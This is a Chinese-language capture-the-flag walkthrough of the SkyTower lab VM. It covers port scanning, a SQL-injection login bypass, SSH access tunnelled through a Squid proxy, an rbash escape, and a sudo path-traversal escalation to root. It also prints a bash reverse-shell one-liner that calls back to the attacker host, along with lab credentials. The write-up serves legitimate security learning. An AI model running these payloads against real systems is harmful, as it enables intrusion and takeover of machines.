

# 前言

靶机：`skytower`靶机，IP地址为`192.168.10.10`

攻击：`kali`，IP地址为`192.168.10.6`

靶机采用`virtualbox`虚拟机，攻击机采用`VMware`虚拟机，都采用桥接网卡模式

> 文章涉及的靶机及工具，都可以自行访问官网或者项目地址进行获取，或者通过网盘链接下载

# 主机发现

也就是相当于现实环境中去发现确定主机的`ip`地址，因为这里是靶机环境，所以跳过了从域名到`ip`地址的过程。

使用`arp-scan -l`或者`netdiscovery -r 192.168.10.1/24`

当然也可以使用`nmap`等工具进行

```shell
arp-scan -l
```


# 信息收集

## 使用nmap扫描目标端口等信息

首先扫描目标的`tcp`端口的开放情况

```shell
nmap -sT --min-rate=1000 192.168.10.10 -p- -oA nmap-tcp
```


再扫描`udp`端口的开放情况

```shell
nmap -sU --min-rate=1000 192.168.10.10 --top-ports 20 -oA nmap-udp
```


可以看到明确开放的`udp`端口没有，所以下面对`tcp`端口进行一个筛选，这里因为`22`端口并不是明确`closed`的，是`filtered`的，所以也要包括在内

```shell
ports=`grep /tcp nmap-tcp.nmap | awk -F'/' '{print $1}' | paste -sd ','`
```


进一步对这些端口进行服务、系统等探测

```shell
nmap -sV -O -sC 192.168.10.10 -p $ports --min-rate=1000
```


再使用`nmap`的漏洞检测脚本对这些端口进行探测

```shell
nmap --script=vuln 192.168.10.10 -p $ports
```


## 网站信息探测

访问80端口的网站，进一步进行收集


访问发现就是一个登录框，访问页面源代码没有信息泄露。

对于登录框，可以采用注入、爆破等方式，目前是信息收集，暂且不测试

使用浏览器插件`wappalyzer`查看站点的一些详细配置


既然有`php`语言，那么爆破一下网站目录，使用`gobuster、ffuf、dirb、dirsearch`等工具

```shell
gobuster dir -u http://192.168.10.10 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -b 403-404 -x php,html,txt
```


扫描结果来看，并没有有效的一些目录

访问3128端口查看，页面源代码中也没有信息泄露


# 漏洞寻找及利用

回到之前网站的登录框，尝试进行注入等操作，测试有无可利用

以常用的万能密码进行测试

```shell
#邮箱出输入这个
admin' or 1=1--+
#密码随便输入
```


根据这个可以知道，过滤了某些东西，输入的是`1=1--+`变成了`11+`，并且`or`也没有。再测试`and`发现也是一样的，对`--`注释，以及`and、or、=`过滤了

那么其`sql`语句大概是这样的

```sql
select * from table where email='$eamil' and password='$password'
```

在`mysql`中可以使用`||、&`代替`or`或`and`，如下：


那么尝试一下，这些符号有没有被过滤，顺提一下，`#`也可以表示注释的

```shell
#邮箱出输入这个
admin' || 1#
#密码随便输入
```


获取到用户名`john`和密码`hereisjohn`了，并且这里还提示了，使用`ssh`

不过前面在扫描的时候也知道了，`22`端口的`ssh`服务是已经被过滤的，也就是直接访问是不行的。

# proxychains4配置链

`3128`端口是一个代理服务器，并且我尝试的时候，并没有阻止我使用它作为代理去访问`80`端口。

也就是，大概是这样的一个图，自己画的，别介意


那么配置`proxychain4.conf`配置文件，指向这个代理服务器，然后再尝试`ssh`登录

```shell
vim /etc/proxychains4.conf
```

文件的末尾添加一行指向`3128`目标端口的地址即可


那么尝试使用`proxychains4`的链，配合`squid`代理进行访问

```shell
proxychains4 ssh john@192.168.10.10
#密码就是前面网站获取的hereisjohn
```


这里可以看到确实是连接了，但是进入之后立马退出了，测试一下能否执行命令

```shell
proxychains4 ssh john@192.168.10.10 "ls -la"
```


不过还是使用`proxytunnel`进行隧道代理

# proxytunnel隧道代理

可以使用`-h`查看具体的帮助

`proxytunnel` 是一个用于通过 HTTP 代理服务器建立 TCP 连接的工具

```shell
-p 是 proxytunnel 用于指定代理服务器地址和端口的参数
-d 用于指定目标服务器的地址和端口
-a 用于指定 proxytunnel 本地监听的端口
```

然后搭建即可

```shell
proxytunnel -p 192.168.10.10:3128 -d 127.0.0.1:22 -a 1234

#注意，这里的-d 127.0.0.1：22
#是通过代理服务器，然后代理服务器请求的127.0.0.1，也就是在同一机器内
#若不是同一机器的话，需要指定具体的ssh服务的ip地址
```


不过从结果来看，还是自动退出了

之前查看当前目录下的文件，发现`.bashrc`，那么可能就是`rbash`，其做了限制，导致自动退出

那么查看这个文件

```shell
ssh john@127.0.0.1 -p 1234 "cat .bashrc"
```


可以看到在文件的最后，有一个语句的输出，以及`exit`退出

在前面登录`john`时，有这个输出`Funds have been withdrawn`，说明这里是执行了这个，并且`exit`生效，导致连接后自动退出

# rbash配置文件修改

前面执行`ls -al`时，也看到了这个文件的所有者是`john`，并且是可以修改的，那么可以尝试修改这个文件，或者删除这个文件

```shell
ssh john@127.0.0.1 -p 1234 "mv .bashrc .bashrc.bak"
```


这时候再次使用`ssh`连接进行测试



# 靶机内信息收集

查看当前系统有哪些用户，有三个用户

```shell
ls -la /home
cat /etc/passwd | grep /bin/bash
```


查看网络状态

```shell
ip add
ss -antulp
netstat -antulp
```


这里可以看到，还有数据库的开放，3306的`mysql`默认端口

查看进程

```shell
ps aux | grep root
top
```


查看定时任务

```shell
crontab -l
cat /etc/crontab
atq
```


查看内核版本和系统版本

```shell
uname -a
uname -r
cat /etc/issue
cat /etc/*release
lsb_release
```


使用`find`寻找其他用户具有写权限的文件，以及寻找具有SUID权限的文件

```shell
find / -type f -perm /o+w 2>/dev/null | grep -v /proc
find / -perm -4000 -print 2>/dev/null
```


使用`sudo -l`，发现`john`用户并没有可执行的


查看连接数据库的信息，也就是网站连接数据库的具体信息

```shell
cat /var/www/login.php
```


那么连接数据库查看有无信息，并且可以看到这里是`root`连接，说明可能存在高权限，并且可能`udf`提权

```shell
mysql -uroot -proot
```


查看数据，发现与三个本地用户相同的邮箱，并且密码未加密


那么可能的用户名和密码猜测如下

| 用户名  | 密码         |
| ------- | ------------ |
| john    | hereisjohn   |
| sara    | ihatethisjob |
| william | senseable    |

查看数据库的安全信息，查看是否可能有`udf`提权的可能性


测试`gcc`和`cc`有无安装，查看版本，但是并没有安装，所以这个编译的话可能不行

```shell
gcc -v
cc -v
```

这里是基本的信息，还没有上传脚本进行检测

# 提权

这里需要注意，现在所作的一切操作，都是在通过代理服务器进行的，若想要稳固连接，需要一个反向`shell`，也就是靶机主动连接`kali`，这样就不会被防火墙拦截

```shell
#在靶机上执行
bash -i >& /dev/tcp/192.168.10.6/9999 0>&1
#当然还有其他的，如nc，脚本语言等
```

不过这种方式在代理断掉的时候，就会断开，我尝试写一个脚本，然后使其一直执行，但是不知道为什么，直接写入文件的形式不行，尝试下载也不行，并且还是在`/tmp`目录下，一直提示写入失败

`-bash: echo: write error: No space left on device`

在执行了`df -h`命令发现，磁盘都满了，啧，这就难搞了。

反正大概知道思路就可以了，这里就是通过脚本的形式来防止连接断开

## 提权至sara

尝试使用`su`切换到`sara`，密码为上面的数据库中的密码`ihatethisjob`

当然测试过另一个，只有这个可以，不过这里切换发现，还是有限制


那么和之前一样，在切换的时候执行一个命令，查看其目录

```shell
su sara -c "ls -la /home/sara"
```


查看`.bashrc`文件，是否与其有关

```shell
su sara -c "cat /home/sara/.bashrc"
```


那么可以与之前一样，把这个文件给它改了，因为`sara`有写权限的

```shell
#这里因为靶机磁盘满了，所以下面的修改不能成功
su sara -c "sed -i 's/exit/g/' /home/sara/.bashrc"
#采用mv更改名称，使得其无法找到.bashrc文件，这样就无法生效了
su sara -c "mv /home/sara/.bashrc /home/sara/.bashrc.bak"
```


再次切换到`sara`用户，即可成功


## 提权至root

执行`sudo -l`发现，当前用户`sara`有几个可执行的文件


可以看到，是允许查看`/accounts`目录下的所有，不过查看后，发现这个目录下什么都没有

不过这是有`sudo`的，这里就需要了解一点，`.`和`..`是在目录包含之内的


那么就可以构造命令，使得可以查看其他文件

```shell
sudo /bin/ls /accounts/../root
sudo /bin/cat /accounts/../root/flag.txt
```


这里给出了`root`的密码`theskytower`

且这里可以越权查看其他文件


# 总结

虽然该靶机的时间有点久远，不过还是有几点值得思考：

1. 网站的`sql`注入，其主要就是执行`sql`语句，那么`sql`中可以执行的，在网站注入都是可行的。
2. `squid`代理服务器，若是别的机器可以通过这个代理服务器，并且能够成功使用的话，就可以借助其所在的网段进行操作，就可以绕过防火墙的限制
3. `proxychains4`代理链的配置，这里就是借助这个然后测试`ssh`连接
4. `proxytunnel`隧道搭建，当确定需要使用代理的时候，可以借助这个工具，搭建一个隧道，使得访问更便捷
5. `rbash`的配置文件，名称为`.bashrc`，一般在用户的主目录下会有该文件，这个配置可以限制用户登录时的一些操作，这里的逃逸是经过`ssh`连接与`su`切换的时候，可以执行一条命令，使得更改`.bashrc`文件，使得无法找到该文件的时候，逃逸成功
6. 靶机内的信息收集，要全面，这里就是数据库与系统账户的一码多用
7. 提权方式考察的其实是`linux`的目录构造，每一个目录下都是有`.`和`..`的，当对一个目录下的所有文件具有`sudo ls/cat`权限的时候，这两个都是该目录下的，所以越级目录访问是可以的

`.`是当前目录，`..`是上一级目录